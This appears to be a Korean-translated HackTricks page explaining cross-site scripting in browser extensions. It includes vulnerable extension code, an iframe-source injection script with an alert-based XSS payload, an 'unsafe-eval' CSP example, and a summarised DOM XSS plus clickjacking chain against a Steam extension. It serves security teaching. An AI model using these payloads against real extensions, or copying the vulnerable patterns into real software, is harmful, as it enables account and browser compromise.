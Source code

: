 # BrowExt - XSS 예제

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## Iframe을 통한 교차 사이트 스크립팅 (XSS)

이 설정에서는 **콘텐츠 스크립트**가 Iframe을 인스턴스화하기 위해 구현되며, Iframe의 소스로 쿼리 매개변수가 포함된 URL을 통합합니다:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
공개적으로 접근 가능한 HTML 페이지, **`message.html`**,은 URL의 매개변수에 따라 문서 본문에 동적으로 콘텐츠를 추가하도록 설계되었습니다:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
악의적인 스크립트가 적의 페이지에서 실행되어 Iframe의 소스의 `content` 매개변수를 수정하여 **XSS 페이로드**를 도입합니다. 이는 Iframe의 소스를 업데이트하여 유해한 스크립트를 포함시킴으로써 달성됩니다:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
과도하게 허용적인 콘텐츠 보안 정책 예:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
JavaScript의 실행을 허용하여 시스템을 XSS 공격에 취약하게 만듭니다.

XSS를 유발하는 대안적인 접근 방식은 Iframe 요소를 생성하고 그 소스를 `content` 매개변수로 유해한 스크립트를 포함하도록 설정하는 것입니다:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM 기반 XSS + ClickJacking

이 예시는 [원본 게시물 작성](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)에서 가져왔습니다.

핵심 문제는 **`/html/bookmarks.html`**에 위치한 DOM 기반 교차 사이트 스크립팅(XSS) 취약점에서 발생합니다. 문제의 JavaScript는 **`bookmarks.js`**의 일부로 아래에 자세히 설명되어 있습니다:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
이 스니펫은 **`txtName`** 입력 필드에서 **값**을 가져오고 **문자열 연결을 사용하여 HTML을 생성**한 다음, jQuery의 `.append()` 함수를 사용하여 DOM에 추가합니다.

일반적으로 Chrome 확장의 콘텐츠 보안 정책(CSP)은 이러한 취약점을 방지합니다. 그러나 **‘unsafe-eval’로 CSP 완화**와 jQuery의 DOM 조작 메서드 사용(이 메서드는 DOM 삽입 시 [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)에 스크립트를 전달하기 위해 [`globalEval()`](https://api.jquery.com/jquery.globaleval/)을 사용함)으로 인해 여전히 악용이 가능합니다.

이 취약점은 중요하지만, 그 악용은 일반적으로 사용자 상호작용에 의존합니다: 페이지 방문, XSS 페이로드 입력, “추가” 버튼 활성화.

이 취약점을 강화하기 위해, 2차 **clickjacking** 취약점이 악용됩니다. Chrome 확장의 매니페스트는 광범위한 `web_accessible_resources` 정책을 보여줍니다:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
특히, **`/html/bookmarks.html`** 페이지는 프레이밍에 취약하여 **clickjacking**에 노출됩니다. 이 취약점은 공격자의 사이트 내에서 페이지를 프레임으로 설정하고, DOM 요소로 덮어씌워 인터페이스를 기만적으로 재설계하는 데 활용됩니다. 이러한 조작은 피해자가 의도치 않게 기본 확장과 상호작용하도록 이끕니다.

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
